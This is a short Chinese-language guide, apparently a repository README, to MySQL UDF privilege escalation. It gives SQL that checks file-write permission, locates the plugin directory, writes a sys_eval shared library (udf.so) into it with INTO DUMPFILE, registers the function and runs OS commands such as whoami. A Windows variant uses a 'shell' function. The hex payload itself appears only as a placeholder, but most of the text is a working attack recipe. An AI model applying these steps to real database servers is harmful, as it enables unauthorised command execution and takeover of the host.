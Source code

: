 # MySQL UDF 提权

> 尝试UDF提权之前，先确保MySQL有读写文件的权限

```SQL
SHOW VARIABLES LIKE 'sec%';
# or
SHOW VARIABLES LIKE 'secure_file_priv';
```
如果查询到 secure_file_priv 的值为NULL，则不可以读写文件

### Linux

> https://github.com/mysqludf/lib_mysqludf_sys

udf.so.txt 是自己的编译的

udf2.so.txt 来自网友编译

> 使用方法

首先通过SQL语句查询到MySQL的plugin位置，如：/usr/lib64/mysql/plugin/

```SQL
SHOW VARIABLES LIKE '%plugin%';
#或者
SELECT @@plugin_dir;
```

然后写UDF到插件目录、创建函数、执行命令

```SQL

SELECT unhex(' [udf.so.txt]|[udf2.so.txt] ') INTO DUMPFILE "/usr/lib64/mysql/plugin/udf.so"; #写入udf.so

DROP FUNCTION sys_eval; # 如果存在函数先drop掉

CREATE FUNCTION sys_eval RETURNS string SONAME 'udf.so'; # 创建函数

SELECT sys_eval ('whoami'); # 执行命令

```


### Windows

方法与上面类似，可以使用tools的UDF提权脚本，或者上传dll文件，命令执行函数名为 shell

使用方法：

```SQL

SELECT shell('cmd','whoami');

```
